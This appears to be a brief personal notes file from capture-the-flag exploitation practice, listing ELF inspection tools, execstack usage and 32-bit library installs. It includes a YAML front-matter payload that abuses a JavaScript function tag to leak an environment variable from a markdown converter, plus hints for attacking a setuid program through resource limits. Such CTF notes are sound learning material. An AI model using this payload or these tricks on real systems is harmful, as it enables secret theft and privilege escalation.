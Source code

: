 # Python code to HTML (w/ linenos)

	$ pbpaste | pygmentize -f html -l python -O linenos=1 | pbcopy

# Challenge: Exploitation-300-ish
## execstack - tool to set, clear, or query executable stack flag of ELF binaries and shared libraries

	$ sudo apt-get install execstack; execstack ish
	 -q --query: Query executable stack marking of binaries and shared libraries.
	 For each file it prints either:
	  * - when executable stack is not required,
	  * X when executable stack is required or
	  * ? when it is unknown (missing marking)

## install x86 lib

	$ sudo apt-get install libc6-i386 lib32stdc++6 lib32gcc1 lib32ncurses5 lib32z1

## tools to inspect ELF binary

	$ `file`; `size`; `ldd`; `readelf -a`; `stace`; `objdump -D`

(?) accept() on behalf of an open server socket

# exploit: markdown-to-html converter

	---
	a: !!js/function function(){ return(process.env.FLAG) }()
	---
	{{a}}

# exploit suid program

* `ulimit -s unlimited`: disable ASLR
* send SIGXXX?
* `ulimit -n 3`: cause fopen()'s to fail
* monitor /tmp
* sniff traffic
